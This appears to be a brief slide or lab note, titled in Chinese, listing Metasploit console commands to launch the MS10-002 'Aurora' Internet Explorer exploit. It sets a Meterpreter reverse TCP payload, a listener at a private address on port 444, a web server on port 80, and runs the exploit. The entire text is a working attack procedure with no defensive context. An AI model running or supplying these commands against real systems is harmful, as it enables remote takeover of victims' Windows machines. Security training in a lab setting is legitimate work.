

# ms10_002漏洞利用
use windows/browser/ms10_002_aurora
set payload windows/meterpreter/reverse_tcp
show options
set SRVPORT 80
set URIPATH /
set LHOST 192.168.2.128
set LPORT 444
exploit